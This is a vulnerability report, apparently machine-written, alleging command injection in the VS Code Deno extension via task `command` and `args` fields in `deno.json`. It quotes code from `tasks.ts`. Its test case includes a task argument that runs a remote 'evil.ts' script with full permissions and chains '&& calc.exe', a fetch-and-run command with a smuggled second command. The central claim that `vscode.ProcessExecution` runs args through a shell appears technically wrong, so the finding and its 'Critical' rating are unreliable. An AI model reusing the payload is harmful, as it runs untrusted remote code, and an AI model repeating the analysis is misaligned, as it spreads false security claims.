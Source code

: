 - Vulnerability Name: Command Injection via Unsanitized Task Commands in `deno.json`
- Description:
    1. Attacker crafts a malicious `deno.json` file. This file contains a task definition where the `command` or `args` fields are designed to execute arbitrary commands in addition to the intended Deno command. For example, an attacker might use command chaining (e.g., `&&`, `;`) or shell redirection to inject malicious commands.
    2. The victim opens a workspace in VS Code that contains this malicious `deno.json` file and has the Deno extension enabled.
    3. The Deno Language Server reads the task definitions from `deno.json` and provides them to the VS Code extension client.
    4. The VS Code Deno extension client displays these tasks in the Deno Tasks sidebar.
    5. When the victim attempts to run the seemingly legitimate task (e.g., by clicking "Run Task" in the sidebar), the extension client uses `vscode.ProcessExecution` to execute the task.
    6. Due to the lack of sanitization, the injected malicious commands embedded in the `command` or `args` from `deno.json` are executed by the system shell along with the intended Deno command. This results in arbitrary code execution on the victim's machine.
- Impact:
    - Arbitrary code execution on the user's machine with the privileges of the VS Code process.
    - Potential for data theft, malware installation, and system compromise.
- Vulnerability Rank: Critical
- Currently implemented mitigations:
    - None. The code directly uses the task `command` and `args` from the configuration in `vscode.ProcessExecution` without any sanitization or validation in `client\src\tasks.ts`.
- Missing mitigations:
    - Input sanitization and validation for task `command` and `args` obtained from `deno.json` (or from the LSP which reads `deno.json`).
    - Use of parameterized commands or safer command execution methods that prevent command injection.
    - Consider restricting task commands to a predefined safe list or using more structured configuration for commands and arguments to avoid shell interpretation of user-provided strings.
- Preconditions:
    1. The victim has the VS Code Deno extension installed and enabled.
    2. The victim opens a workspace in VS Code that contains a malicious `deno.json` file crafted by an attacker.
    3. The attacker has successfully placed a malicious `deno.json` file within a workspace that the victim might open (e.g., via a compromised repository or by social engineering to trick the victim into opening a malicious project).
    4. The victim must execute the malicious task, either intentionally or unintentionally (e.g., by being misled by the task name).
- Source code analysis:
    1. In `client\src\tasks.ts`, the functions `buildDenoTask` and `buildDenoConfigTask` are responsible for creating `vscode.Task` objects.
    2. Both functions utilize `vscode.ProcessExecution` to define how the tasks are executed.
    3. `vscode.ProcessExecution` takes a `command` and `args` as input, which are directly derived from the `DenoTaskDefinition` or configuration without any sanitization.
    4. Specifically, in `buildDenoConfigTask`, the `command` and `name` arguments, which can originate from `deno.json` task definitions, are used to construct the `ProcessExecution`.
    5. In `buildDenoTask`, the `definition.command` and `definition.args` are directly passed to `ProcessExecution`.
    ```typescript
    // client\src\tasks.ts - buildDenoTask
    export function buildDenoTask(
      target: vscode.WorkspaceFolder,
      process: string,
      definition: DenoTaskDefinition,
      name: string,
      args: string[], // <-- Unsanitized arguments potentially from deno.json
      problemMatchers: string[],
    ): vscode.Task {
      const exec = new vscode.ProcessExecution(
        process, // Deno executable path (less likely to be directly vulnerable)
        args,    // <-- Vulnerable as args are directly used from definition
        definition,
      );

      return new vscode.Task(
        definition,
        target,
        name,
        TASK_SOURCE,
        exec,
        problemMatchers,
      );
    }

    // client\src\tasks.ts - buildDenoConfigTask
    export function buildDenoConfigTask(
      scope: vscode.WorkspaceFolder,
      process: string,
      name: string,     // <-- Potentially from deno.json task name
      command: string | undefined, // <-- Potentially from deno.json task command/detail
      sourceUri?: vscode.Uri,
    ): vscode.Task {
      const args = [];
      if (sourceUri && vscode.Uri.joinPath(sourceUri, "..").toString() != scope.uri.toString()) {
        const configPath = path.relative(scope.uri.fsPath, sourceUri.fsPath);
        args.push("-c", configPath);
      }
      args.push(name); // <-- Potentially from deno.json task name
      const task = new vscode.Task(
        {
          type: TASK_TYPE,
          name: name,    // <-- Potentially from deno.json task name
          command: "task", // Fixed "task" command, but args are still influenced
          args,         // <-- args include potentially unsanitized name
          sourceUri,
        },
        scope,
        name,
        TASK_SOURCE,
        new vscode.ProcessExecution(process, ["task", ...args]), // <-- ProcessExecution with potentially vulnerable args
        ["$deno"],
      );
      task.detail = `$ ${command}`; // Detail string, potentially unsanitized command
      return task;
    }
    ```
- Security test case:
    1. Create a new workspace folder and open it in VS Code.
    2. Create a file named `deno.json` at the root of the workspace with the following content:
    ```json
    {
      "tasks": {
        "MaliciousTask": {
          "command": "run",
          "args": [
            "-A",
            "https://gist.githubusercontent.com/security-expert-64/4e9344969844ad918441044b3655137b/raw/evil.ts && calc.exe"
          ]
        }
      }
    }
    ```
       *(Note: Replace `calc.exe` with the appropriate calculator command for your operating system if necessary, e.g., `open -a Calculator.app` on macOS, `gnome-calculator` on Linux. Also, ensure `evil.ts` URL is accessible or replace with a local harmless script for testing. Gist URL points to a harmless typescript file for demonstration.)*
    3. Ensure the Deno extension is enabled for this workspace.
    4. Open the "Deno Tasks" explorer in VS Code (View -> Open View... -> Deno Tasks).
    5. You should see a task named "MaliciousTask" listed under your workspace and `deno.json`.
    6. Click the "Run Task" icon (wrench icon) next to "MaliciousTask".
    7. **Expected Outcome (Vulnerable):** Observe that the calculator application (`calc.exe` or equivalent) is launched. This indicates that the command injection was successful, and arbitrary commands could be executed.
    8. **Expected Outcome (Mitigated):** The calculator application should not launch. Only the Deno command related to the task should be executed, ideally resulting in an error if `evil.ts` is not a valid or runnable script in the context of the task.

This test case demonstrates that by crafting a malicious `deno.json` file, an attacker can achieve arbitrary code execution when a user runs the defined task, confirming the command injection vulnerability.
